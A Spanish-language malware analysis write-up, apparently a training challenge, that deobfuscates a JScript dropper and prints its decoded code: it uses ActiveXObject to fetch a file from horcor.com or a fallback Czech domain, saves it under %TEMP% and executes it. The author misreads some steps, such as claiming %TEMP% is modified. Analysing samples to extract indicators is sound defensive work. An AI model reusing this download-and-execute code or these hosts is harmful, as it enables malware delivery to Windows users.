


Han encontrado un malware alojado en un servidor web donde es evidente la ofuscación. Dado que se trata de un incidente grave, se necesita analizar este fragmento y extraer la funcionalidad que posee y los IOC crear reglas eficaces en los sistemas de defensa de la empresa.

> [Descargar la muestra](files/shellcode.7z)


## Desofuscar la muestra

En un primer intento de entender el shellcode busqué símbolos o distintivos de algún lenguaje de programación, al final acabé separando el código “bloques” fijándome en lo que podía ser strings por estar rodeado de comillas dobles y usando los paréntesis y corchetes, el código tabulado queda de la siguiente forma.



Después pensé que podía tratarse de algún ensamblador donde con el \x indica los opcodes y los \u registros o nombres de variables ofuscadas de alguna forma, al poco que me puse a probar mi teoría ví que no era viable. Más adelante caí que los caracteres puestos /* *\ debían ser un comentario.

Por tanto busco entre los lenguajes que usan el comentario en bloque /* *\ cuales están relacionados con la palabra reservada «this» junto a unos corchetes, para delimitar el final del código no se está usando un delimitador como el punto y coma de C. Finalmente tampoco llegué a una conclusión en claro. Luego me dí cuenta que lo estaba complicando demasiado, los \u podrían ser caracteres en unicode, decodifico el string contenido en los corchetes de this.

|  e  | \u0076 | \x61 | \u006c |
|:---:|:------:|:----:|:------:|
| ‘e’ |   ‘v’  |  ‘a’ |   ’l’  |

Con la palabra “eval” puedo acotar que es código php o javascript y que además obtengo más información decodificando el resto del shellcode, para no hacerlo a mano uso la herramienta online hex decoder y tras añadir los paréntesis y corchetes queda:

```JS
this["eval"]("new ActiveXObject("WScript.Shell")")["Run"]("CMD /c echo ...",0)
```

Buscando por Google vi que ActiveXObject es una extensión de JS por lo que definitivamente descarto PHP. El objeto ActiveXObject es sólo soportado por Internet Explorer y junto al argumento «WScript.Shell» permite ejecutar código en la línea de comandos de windows.

Ahora queda ver mejor qué comando se va a ejecutar, del código puesto arriba los puntos suspensivos corresponden a este código:



Falta decodificar la última línea, esta sigue una codificación llamada Uniform Resource Identifier (URI). Para no hacer la conversión a mano uso la herramienta online urldecoder y una vez tabulado obtengo el siguiente código JS:

```JS
(function(){;
tQINHnv= (24219,"%T" "EMP%");
eAtBFv= (30004,"Ex" "ec");
RDPOj= (32030,"ne" "w ActiveXObject(\"ADODB.Stream\")");
piGnjEx= (84954,"op" "en");
GWZam= (57011,"Ex" "pandEnvironmentStrings");
Ktcbl= (80330,"ht" "tp://horcor.com/ese.tf");
zEIJ= (34953,"ty" "pe");
TwSRQ= (3016,"ne" "w ActiveXObject(\"Msxml2.ServerXMLHTTP\")");
ohjQCX= (42836,"ev" "al");
MjrI= (47115,"sa" "veToFile");
BLaOGnI= (25381,"ht" "tp://www.nemcicenadhanou.cz/nvdtime.prs");
HSMGaIEQ= (18246,"se" "nd");
AtZT= (35382,"Wr" "ite");
FFMNzrO= (21478,"re" "sponseBody");
ajtgFv= (72806,"GE" "T");
iLmLQXZ= (91961,"\\" "tmp484430.361");
NuRV= (2861,"ne" "w ActiveXObject(\"WScript.Shell\")");
... // más adelante se muestra y explica el resto del código
})();
```

Para hacerlo legible sustituyo los nombres formados por letras aleatorias por el string correspondiente, el resto del código queda:

```JS
qjlCf= (41901,this["eval"]("new ActiveXObject(\"WScript.Shell\")"));
nwPG= (92838,this["eval"](new ActiveXObject(\"ADODB.Stream\")"));
vPpgA= (92787,this["eval"]("new
ActiveXObject(\"Msxml2.ServerXMLHTTP\")"));
CMqpUgZb= (31987,qjlCf["ExpandEnvironmentStrings"]("%TEMP%")
"\\tmp484430.361");
nwPG["type"]= (88058,1);
nwPG["open"]();
rcZXxqc= (1768,null);
```

Ahora se puede entender que va a hacer uso de nuevo del objetivo ActiveXObject, en el primero para ejecutar código en la cmd, en el segundo con el argumento ADODB Stream para escribir o leer archivos y en el tercero con el argumento Msxml2.ServerXMLHTTP para obtener una respuesta xml. En la cuarta variable hace uso del ActiveXObject para ejecutar una función de la WinApi32 para modificar el valor de la variable de entorno %TEMP%.

A continuación viene un bloque try catch:

```JS
try{
vPpgA["open"]("Get","http://horcor.com/ese.tf",false);
vPpgA["send"]();
rcZXxqc= (69370,vPpgA["responseBody"]);
nwPG["Write"](rcZXxqc);
}catch(eKiNjSK){}
```

En este bloque hace un petición http del tipo get a una web, de la respuesta obtenida extrae el campo reponseBody mediante el ActiveXObject(\»Msxml2.ServerXMLHTTP\») y para acabar el campo obtenido se escribe en un fichero usando ActiveXObject(\»ADODB.Stream\»).
A continuación viene un bloque if, viene a ser lo mismo a lo explicado en el try catch con una
web distinta, solo se ejecuta si el recurso anterior no es accesible.

```JS
if(null==rcZXxqc){
try{
vPpgA["open"]
("Get","http://www.nemcicenadhanou.cz/nvdtime.prs",false);
vPpgA["send"]();
rcZXxqc= (18265,vPpgA["responseBody"]);
nwPG["Write"](rcZXxqc); }catch(lEwiG){} }
```

Para acabar las última líneas son:

```JS
nwPG["saveToFile"](CMqpUgZb,2);
qjlCf["Exec"](CMqpUgZb);
```

En la primera llama a la función saveToFile con la variable que contiene el código para modificar las variables de entorno, posteriormente llamando a Exec ejecutar el archivo guardado.

Resumiendo todo lo visto, se trata de un shellcode que ejecuta código en la cmd usando una función de JS solo disponible en Internet Explorer, después el código ejecutado en la cmd a su vez contiene código JS para modificar la variable de entorno %TEMP% con el valor \\tmp484430.361 y para escribir un fichero con la información obtenida desde la petición get a un dominio.

## Conclusiones

He hecho muy poca programación web asi que me costó encontrarle el truco a esta shellcode, no estoy acostumbrado a usar la consola del inspector de los navegadores lo que hace más fácil la desofuscación del código ya que con ponerla (de forma que el código no funcione…) te realiza la mayor parte de la tradución en la salida de error, asi habría evitado usar una herramienta web que se cómia demasiados caracteres como las llaves.